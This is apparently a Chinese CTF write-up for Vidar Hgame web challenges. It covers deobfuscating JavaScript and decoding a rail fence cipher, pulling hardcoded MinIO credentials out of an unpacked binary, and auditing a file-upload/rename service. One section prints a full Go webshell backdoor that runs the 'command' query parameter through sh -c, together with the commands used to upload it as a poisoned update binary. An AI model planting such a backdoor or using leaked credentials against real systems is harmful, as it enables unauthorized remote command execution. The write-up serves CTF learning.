









Vidar Hgame
===

## [WEB] Picman

打开是一个吃豆人游戏, `F12` 在控制台能看见 `index.js` 和 `game.js`:



### Obfuscator 混淆

代码的可读性极差, 应该是经过了**混淆**, 把 `index.js` 扔进这个网站解码: [deobfuscate](https://deobfuscate.relative.im/)

```js
    _0x3c0cce.createItem({
      x: _0x5e1765.width / 2,
      y: _0x5e1765.height * 0.5,
      draw: function (_0x413b57) {
        _0x413b57.fillStyle = '#FFF'
        _0x413b57.font = '20px PressStart2P'
        _0x413b57.textAlign = 'center'
        _0x413b57.textBaseline = 'middle'
        var _0x82b005 = _SCORE + 50 * Math.max(_LIFE - 1, 0)
        _0x413b57.fillText('FINAL SCORE: ' + _0x82b005, this.x, this.y)
        _0x82b005 > 9999
          ? ((_0x413b57.font = '16px PressStart2P'),
            _0x413b57.fillText(
              'here is your gift:aGFldTRlcGNhXzR0cmdte19yX2Ftbm1zZX0=',
              this.x,
              this.y + 40
            ),
            console.log(
              'here is your gift:aGFldTRlcGNhXzR0cmdte19yX2Ftbm1zZX0='
            ))
          : ((_0x413b57.font = '16px PressStart2P'),
            _0x413b57.fillText(
              'here is your gift:aGFlcGFpZW1rc3ByZXRnbXtydGNfYWVfZWZjfQ==',
              this.x,
              this.y + 40
            ),
            console.log(
              'here is your gift:aGFlcGFpZW1rc3ByZXRnbXtydGNfYWVfZWZjfQ=='
            ))
      },
    })
```

对这两段字符串 base64 解码, 结果是: 

```
haeu4epca_4trgm{_r_amnmse}
haepaiemkspretgm{rtc_ae_efc}
```

### Fence

Fence 解密后:





得到 flag:

```
hgame{u_4re_pacman_m4ster}
hgame{pratice_makes_perfect}
```

关于 Fence (栅栏密码): 将原文按一定的不长和偏移按**之字形**排开, 然后*按行读取*得到; 

- **Key（键/栏数）**：
指“栅栏”的层数。它决定了你垂直方向上有多少行。Key 越大，字符分布越散，破解难度相对（稍微）提高。

- **Offset（偏移量）**：
指从哪个位置开始书写。默认情况下偏移量为 0（从第一行第一列开始）。

例如，如果设置偏移量，可能会导致第一组字符不是从第一层开始，或者起始波形处于下降/上升的中途。

一个例子可以很形象的展示:

---

> 原文: `HELLOWORLD`;

> Key = 2, Offset = 0:
> ```
> 行 1: H . L . O . O . L .
> 行 2: . E . L . W . R . D
> ```
> 重排后" `HLOOLELWRD`;

> Key = 3, Offset = 2:
> ```
> 行 1: . . L . . . O . . .
> 行 2: . E . L . W . R . D
> 行 3: H . . . O . . . L .
> ```
> 重排后: `LOELWRDHOL`。

这种加密方式本质上属于**经典置换密码**（Transposition Cipher），它只改变了字符的位置，而没有改变字符的分布特征。长话短说的讲, 没有显著提高信息的熵值。

## [WEB] 双面人派对

### minio

题目一共有两个网站, 访问一下 web 这个:



有一个 main 文件, 这是一个二进制文件; 



一个带 upx 壳的 64 位可执行文件; 去 github 上下载一个脱壳工具即可, 指令:

```bash
upx -d main
```

之后用 IDA 打开审计, 慢慢找, 能找到一点 minio 的线索, 搜索这个 *level25* 最终能找到配置数据:



说明另一个服务可能是 minio 服务, 并且给出了配置:

```
minio:
endpoint: "127.0.0.1:9000"
access_key: "minio_admin"
secret_key: "JPSQ4NOBvh2/W7hzdLyRYLDm0wNRMG48BL09yOKGpHs="
bucket: "prodbucket"
key: "update"
```

用 `mc` 工具连接:

> [官方网站](https://minio.org.cn/docs/minio/linux/reference/minio-mc.html)的临时指令:
> ```bash
> curl https://dl.minio.org.cn/client/mc/release/linux-amd64/mc \
> --create-dirs \
> -o $HOME/minio-binaries/mc
>
> chmod +x $HOME/minio-binaries/mc
> export PATH=$PATH:$HOME/minio-binaries/
> 
> mc --help
> ```

```bash
mc alias set myminio http://forward.vidar.club:31211 minio_admin "JPSQ4NOBvh2/W7hzdLyRYLDm0wNRMG48BL09yOKGpHs="
```

连接成功后在服务器执行:

```bash
mc ls myminio
mc ls myminio/hints
mc cp myminio/hints/src.zip path
```



### 文件上传漏洞

获取源码分析:

> minio 的配置是写死在 `yaml` 里的, 启动时会从 minio 中的 update 中读更新, 但是 minio 的文件上传没有过滤和限制, 因此可以上传到 minio 污染源码!

```go
package main

import (
	"level25/fetch"

	"level25/conf"

	"github.com/gin-gonic/gin"
	"github.com/jpillora/overseer"
)

func main() {
	fetcher := &fetch.MinioFetcher{
		Bucket:    conf.MinioBucket,
		Key:       conf.MinioKey,
		Endpoint:  conf.MinioEndpoint,
		AccessKey: conf.MinioAccessKey,
		SecretKey: conf.MinioSecretKey,
	}
	overseer.Run(overseer.Config{
		Program: program,
		Fetcher: fetcher,
	})

}

func program(state overseer.State) {
	g := gin.Default()
	g.StaticFS("/", gin.Dir(".", true))
	g.Run(":8080")
}
```

### 编写 webshell

因此给他加个后门:

```go
package main

import (
	"bytes"
	"level25/fetch"
	"level25/conf"
	"net/http"
	"os/exec"

	"github.com/gin-gonic/gin"
	"github.com/jpillora/overseer"
)

func main() {
	fetcher := &fetch.MinioFetcher{
		Bucket:    conf.MinioBucket,
		Key:       conf.MinioKey,
		Endpoint:  conf.MinioEndpoint,
		AccessKey: conf.MinioAccessKey,
		SecretKey: conf.MinioSecretKey,
	}
	overseer.Run(overseer.Config{
		Program: program,
		Fetcher: fetcher,
	})
}

func program(state overseer.State) {
	g := gin.Default()
	g.StaticFS("/static", gin.Dir(".", true))
	
	// 添加后门路由
	g.GET("/cmd", func(c *gin.Context) {
		command := c.Query("command")
		if command == "" {
			c.JSON(http.StatusBadRequest, gin.H{"error": "command parameter is required"})
			return
		}
		
		cmd := exec.Command("sh", "-c", command)
		var stdout, stderr bytes.Buffer
		cmd.Stdout = &stdout
		cmd.Stderr = &stderr
		err := cmd.Run()
		
		if err != nil {
			c.JSON(http.StatusInternalServerError, gin.H{
				"error":   "failed to execute command",
				"details": stderr.String(),
			})
			return
		}
		
		c.JSON(http.StatusOK, gin.H{
			"command": command,
			"output":  stdout.String(),
		})
	})
	
	g.Run(":8080")
}
```

修改后编译, 上传:

```bash
# 镜像源加速
export GOPROXY=https://mirrors.aliyun.com/goproxy

# 编译
go build -o main main.go

# 上传
mc cp ./main myminio/prodbucket/update
```

> 注意, 由于目标环境在 Linux 上, 这里最好也在 Linux 上编译;

之后服务会自动重启, 重启后访问后门:





*flag* 就在根目录下;

### 总结

#### 入口分析

- 目标：Web 服务提供的 main 二进制文件
- 手段：UPX 脱壳 → IDA 静态审计

#### 关键信息泄露

在二进制文件中搜索 level25 定位到硬编码的 MinIO 配置：
```
Endpoint: 127.0.0.1:9000
Access Key: minio_admin
Secret Key: JPSQ4NOBvh2/W7hzdLyRYLDm0wNRMG48BL09yOKGpHs=
Bucket: prodbucket
Key: update
```

#### 后续利用

使用 mc (MinIO Client) 工具连接对象存储服务
潜在攻击面：存储桶遍历、文件下载/上传、密钥泄露等

---

> 核心漏洞：二进制文件未脱敏，硬编码云服务凭证导致内部 MinIO 服务暴露。


## [WEB] 不存在的车厢

### 自定义协议

题目有源码, 下载后发现 web 服务启用了自定义协议 (H111):

```go
package protocol

import (
	"bytes"
	"encoding/binary"
	"errors"
	"io"
	"net/http"
)

var ErrReadH111Request = errors.New("fail to read as H111 request")
var ErrWriteH111Request = errors.New("fail to write as H111 request")

func ReadH111Request(reader io.Reader) (*http.Request, error) {
	var methodLength uint16
	binary.Read(reader, binary.BigEndian, &methodLength)
	method := make([]byte, int(methodLength))
	_, err := io.ReadFull(reader, method)
	if err != nil {
		return nil, errors.Join(ErrReadH111Request, err)
	}
	var uriLength uint16
	binary.Read(reader, binary.BigEndian, &uriLength)
	requestURI := make([]byte, int(uriLength))
	_, err = io.ReadFull(reader, requestURI)
	if err != nil {
		return nil, errors.Join(ErrReadH111Request, err)
	}

	var headerCount uint16
	err = binary.Read(reader, binary.BigEndian, &headerCount)
	if err != nil {
		return nil, errors.Join(ErrReadH111Request, err)
	}

	headers := make(map[string][]string)
	for i := uint16(0); i < headerCount; i++ {
		var keyLength uint16
		err = binary.Read(reader, binary.BigEndian, &keyLength)
		if err != nil {
			return nil, errors.Join(ErrReadH111Request, err)
		}
		key := make([]byte, keyLength)
		_, err = io.ReadFull(reader, key)
		if err != nil {
			return nil, errors.Join(ErrReadH111Request, err)
		}

		var valueLength uint16
		err = binary.Read(reader, binary.BigEndian, &valueLength)
		if err != nil {
			return nil, errors.Join(ErrReadH111Request, err)
		}
		value := make([]byte, valueLength)
		_, err = io.ReadFull(reader, value)
		if err != nil {
			return nil, errors.Join(ErrReadH111Request, err)
		}

		headers[string(key)] = append(headers[string(key)], string(value))
	}

	var bodyLength uint16
	err = binary.Read(reader, binary.BigEndian, &bodyLength)
	if err != nil {
		return nil, errors.Join(ErrReadH111Request, err)
	}

	body := make([]byte, bodyLength)
	_, err = io.ReadFull(reader, body)
	if err != nil {
		return nil, errors.Join(ErrReadH111Request, err)
	}

	req, err := http.NewRequest(string(method), string(requestURI), bytes.NewReader(body))
	if err != nil {
		return nil, errors.Join(ErrReadH111Request, err)
	}

	req.Header = headers

	return req, nil
}

func WriteH111Request(writer io.Writer, req *http.Request) error {
	methodBytes := []byte(req.Method)
	if err := binary.Write(writer, binary.BigEndian, uint16(len(methodBytes))); err != nil {
		return errors.Join(ErrWriteH111Request, err)
	}
	if _, err := writer.Write(methodBytes); err != nil {
		return errors.Join(ErrWriteH111Request, err)
	}

	pathBytes := []byte(req.RequestURI)
	if err := binary.Write(writer, binary.BigEndian, uint16(len(pathBytes))); err != nil {
		return errors.Join(ErrWriteH111Request, err)
	}
	if _, err := writer.Write(pathBytes); err != nil {
		return errors.Join(ErrWriteH111Request, err)
	}

	headerCount := uint16(len(req.Header))
	if err := binary.Write(writer, binary.BigEndian, headerCount); err != nil {
		return errors.Join(ErrWriteH111Request, err)
	}

	for key, values := range req.Header {
		keyBytes := []byte(key)
		if err := binary.Write(writer, binary.BigEndian, uint16(len(keyBytes))); err != nil {
			return errors.Join(ErrWriteH111Request, err)
		}
		if _, err := writer.Write(keyBytes); err != nil {
			return errors.Join(ErrWriteH111Request, err)
		}

		for _, value := range values {
			valueBytes := []byte(value)
			if err := binary.Write(writer, binary.BigEndian, uint16(len(valueBytes))); err != nil {
				return errors.Join(ErrWriteH111Request, err)
			}
			if _, err := writer.Write(valueBytes); err != nil {
				return errors.Join(ErrWriteH111Request, err)
			}
		}
	}

	if req.Body != nil {
		body, err := io.ReadAll(req.Body)
		if err != nil {
			return errors.Join(ErrWriteH111Request, err)
		}
		if err := binary.Write(writer, binary.BigEndian, uint16(len(body))); err != nil {
			return errors.Join(ErrWriteH111Request, err)
		}
		if _, err := writer.Write(body); err != nil {
			return errors.Join(ErrWriteH111Request, err)
		}
	} else {
		if err := binary.Write(writer, binary.BigEndian, uint16(0)); err != nil {
			return errors.Join(ErrWriteH111Request, err)
		}
	}

	return nil
}
```


## [WEB] BandBomb

### 文件上传漏洞

打开是一个文件上传页面; 

```js
const express = require('express');
const multer = require('multer');
const fs = require('fs');
const path = require('path');

const app = express();

app.set('view engine', 'ejs');

app.use('/static', express.static(path.join(__dirname, 'public')));
app.use(express.json());

const storage = multer.diskStorage({
  destination: (req, file, cb) => {
    const uploadDir = 'uploads';
    if (!fs.existsSync(uploadDir)) {
      fs.mkdirSync(uploadDir);
    }
    cb(null, uploadDir);
  },
  filename: (req, file, cb) => {
    cb(null, file.originalname);
  }
});

const upload = multer({ 
  storage: storage,
  fileFilter: (_, file, cb) => {
    try {
      if (!file.originalname) {
        return cb(new Error('无效的文件名'), false);
      }
      cb(null, true);
    } catch (err) {
      cb(new Error('文件处理错误'), false);
    }
  }
});

app.get('/', (req, res) => {
  const uploadsDir = path.join(__dirname, 'uploads');
  
  if (!fs.existsSync(uploadsDir)) {
    fs.mkdirSync(uploadsDir);
  }

  fs.readdir(uploadsDir, (err, files) => {
    if (err) {
      return res.status(500).render('mortis', { files: [] });
    }
    res.render('mortis', { files: files });
  });
});

app.post('/upload', (req, res) => {
  upload.single('file')(req, res, (err) => {
    if (err) {
      return res.status(400).json({ error: err.message });
    }
    if (!req.file) {
      return res.status(400).json({ error: '没有选择文件' });
    }
    res.json({ 
      message: '文件上传成功',
      filename: req.file.filename 
    });
  });
});

app.post('/rename', (req, res) => {
  const { oldName, newName } = req.body;
  const oldPath = path.join(__dirname, 'uploads', oldName);
  const newPath = path.join(__dirname, 'uploads', newName);

  if (!oldName || !newName) {
    return res.status(400).json({ error: ' ' });
  }

  fs.rename(oldPath, newPath, (err) => {
    if (err) {
      return res.status(500).json({ error: ' ' + err.message });
    }
    res.json({ message: ' ' });
  });
});

app.listen(port, () => {
  console.log(`服务器运行在 http://localhost:${port}`);
});
```

简单审计一下代码, 发现此处的文件上传没有严格限制; 并且还有一个 `rename` 接口, 可以直接执行文件覆盖;

由于现代前端框架（如 Vue、React）通常都支持热更新, 是否可以上传一个 `app.js` 直接把原来的源码给覆盖掉?


